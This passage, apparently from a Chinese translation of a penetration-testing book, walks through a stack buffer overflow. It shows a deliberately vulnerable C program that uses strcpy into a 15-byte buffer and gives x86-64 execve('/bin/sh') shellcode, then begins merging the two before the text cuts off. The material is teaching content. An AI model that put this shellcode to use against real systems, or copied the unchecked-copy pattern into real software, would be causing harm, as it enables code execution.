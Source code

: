 按下*C*然后*Enter*继续：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00241.jpeg)

我们做到了！现在，让我们从我们的 shell 中确认，而不是从 GDB 中确认：

```
$ ./buffer $(cat input.txt)
```

前面命令的输出可以在以下截图中看到：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00242.jpeg)

是的，我们改变了执行流程，执行了本不应该执行的东西！

让我们再试一个有趣的有效载荷。我们将使用我们的代码：

```
int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

但我们将在这里添加我们的`execve`系统调用来从上一章运行`/bin/sh`：

```
unsigned char code[] =
 "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
 }
```

让我们把它们放在一起：

```
 #include <stdio.h>
 #include <string.h>
 #include <stdlib.h>

 void shell_pwn()
 {
    char code[] =
     "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
     \x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
 }
 int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
```